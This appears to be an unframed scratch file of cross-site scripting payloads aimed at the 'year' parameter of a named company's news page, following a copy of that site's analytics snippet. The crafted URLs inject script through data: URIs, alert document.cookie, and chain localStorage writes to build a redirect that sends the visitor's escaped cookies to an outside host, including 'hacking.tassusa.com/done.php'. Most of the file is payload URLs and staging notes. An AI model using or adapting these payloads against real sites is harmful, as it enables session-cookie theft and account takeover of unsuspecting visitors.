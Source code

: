   (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
  })(window,document,'script','//www.google-analytics.com/analytics.js','ga');

  ga('create', 'UA-64756374-1', 'auto');
  ga('send', 'pageview');




(function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){(i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)})(window,document,'script','//www.google-analytics.com/analytics.js','ga');ga('create', 'UA-64756374-1', 'auto');ga('send', 'pageview');


http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,(function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){(i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)})(window,document,'script','//www.google-analytics.com/analytics.js','ga');ga('create', 'UA-64756374-1', 'auto');ga('send', 'pageview');alert(document.cookie);%2b%22


http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,alert(document.cookie)%2b%22

http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,location=localStorage.getItem(%27t%27)+localStorage.getItem(%27l%27)%2b%22

http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,localStorage.setItem(%27l%27,location.href.substr(0,7)%2B'google.com'%2Blocation.href.substr(42,1))%2b%22

http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,localStorage.setItem(%27l%27,location.href.substr(0,7)%2B'google.com')%2b%22


BASE:
http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,localStorage.setItem(%27l%27,location.href.substr(0,7)%2B'google.com')%2b%22
http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,localStorage.setItem(%27l%27,location.href.substr(0,7)%2B%27hacking.tassusa.com/done.php%27)%2b%22


QUERY STRING PART:
http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,localStorage.setItem(%27q%27,location.href.substr(42,1)%2B%27q=%27)%2b%22


COOKIE:
http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,localStorage.setItem('c', escape(document.cookie))%2b%22


FINAL:
http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,location=localStorage.getItem(%27l%27)%2BlocalStorage.getItem(%27q%27)%2BlocalStorage.getItem(%27c%27)%2b%22

http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,location=localStorage.getItem(%27l%27)%2BlocalStorage.getItem(%27q%27)%2BlocalStorage.getItem(%27c%27)%2b%22

localStorage.getItem('l')+localStorage.getItem('q')+localStorage.getItem('c')

DESIRED:
http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,localStorage.setItem('l', 'http://google.com?q='+escape(document.cookie))+%22

SET REDIRECT LOCATION:
http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,localStorage.setItem(%27v%27,location.href.substr(29,19))%2b%22



http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,location=localStorage.getItem('l')%2BlocalStorage.getItem('q')%2BlocalStorage.getItem('c')%2b%22



localStorage.setItem('l', 'http://google.com?q='%2Bescape(document.cookie))

CHAIN STRUCTURE:
http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,location=location.href.substr(0,48)%2B%27CHAINHERE%27%2b%22

1.
%22%3E%3Cscript/src=data:,localStorage.setItem(%27l%27,location.href.substr(0,7)%2B'google.com')%2b%22
"><script/src=data:,localStorage.setItem(%27l%27,location.href.substr(0,7)%2B'google.com')%2b"

2.
%22%3E%3Cscript/src=data:,localStorage.setItem(%27q%27,location.href.substr(42,1)%2B%27q=%27)%2b%22"><script/src=data:,localStorage.setItem(%27q%27,location.href.substr(42,1)%2B%27q=%27)%2b"

3.
%22%3E%3Cscript/src=data:,localStorage.setItem('c', escape(document.cookie))%2b%22
"><script/src=data:,localStorage.setItem('c', escape(document.cookie))%2b"


1 & 2:
http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,localStorage.setItem(%27l%27,location.href.substr(0,7)%2B'google.com');location=location.href.substr(0,48)%2B%27localStorage.setItem(%27q%27,location.href.substr(42,1)%2B%27q=%27)%27%2b%22

http://www.revesoft.com/news/news_about_us?year=%22%3E%3Cscript/src=data:,localStorage.setItem(%27l%27,location.href.substr(0,7)%2B'google.com');location=location.href.substr(0,48)%2B%27ok%27%2b%22

+ == %2B

? == location.href.substr(42,1)